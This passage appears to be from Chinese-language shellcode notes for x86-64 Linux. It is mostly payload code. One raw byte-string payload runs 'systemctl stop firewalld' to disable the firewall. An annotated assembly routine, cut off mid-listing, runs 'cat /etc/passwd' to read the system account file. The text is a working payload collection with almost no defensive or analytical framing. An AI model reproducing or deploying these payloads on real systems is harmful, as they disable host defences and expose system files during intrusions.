```
    add rax,0x3b
    xor rdx,rdx
   	 syscall
```



```
\x48\x31\xdb\x53\x48\x81\xc3\x74\x6c\x00\x00\x53\x48\xbb\x2f\x73
\x79\x73\x74\x65\x6d\x63\x53\x48\xb9\x2f\x75\x73\x72\x2f\x62\x69
\x6e\x51\x48\x89\xe7\x48\x31\xdb\x48\x83\xc3\x6c\x53\x48\xbb\x73
\x79\x73\x74\x65\x6d\x63\x74\x53\x48\x89\xe3\x48\x31\xc0\x48\x05
\x73\x74\x6f\x70\x50\x48\x89\xe1\x48\x31\xc0\x48\x83\xc0\x64\x50
\x48\xb8\x66\x69\x72\x65\x77\x61\x6c\x6c\x50\x48\x89\xe2\x48\x31
\xc0\x50\x52\x51\x53\x48\x89\xe6\x48\x31\xc0\x48\x83\xc0\x3b\x48
\x31\xd2\x0f\x05
```



## 4.读取passwd

### 1.使用 execve("/bin/cat", ["/bin/cat", "//////etc/passwd"], NULL)、

| rax  |   rdi    |             rsi             | rdx  |
| :--: | :------: | :-------------------------: | :--: |
|  59  | /bin/cat | ["/bin/cat", "/etc/passwd"] | NULL |

#### 1.黄 66bytes

```
global _start
section .text

_start:

       xor rax, rax                   ; Zeroes out RAX.
       xor rbp, rbp                   ; Zeroes out RBP.

       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rbp, 0x6477737361702f63    ; Moves value "dwsspa/c" into RBP.
       push rbp                       ; Pushes the vaueof RBP into the Stack.

       mov rbp, 0x74652f2f2f2f2f2f    ; Moves value "te//////" into RBP.
       push rbp                       ; Pushes the vaue of RBP into the Stack.

       mov rbp, rsp                   ; Copies the value of the Stack into RBP.
       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rbx, 0x7461632f6e69622f    ; Moves value "tac/nib/" into RBX.
       push rbx                       ; Pushes the vaue of RBX into the Stack.

       mov rbx, rsp                   ; Copies the value of the Stack into RBX.

       mov rdi, rsp                   ; Copies the value of the Stack into RDI.
       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rdx, rsp                   ; Copies the value of the Stack into RDX. As the previous DWORD was completely NULL, RDX is set to 0.

       push rbp                       ; Pushes the vaue of RBP into the Stack.
       push rbx                       ; Pushes the vaue of RBX into the Stack. The full string should be "cat /etc/passwd".
```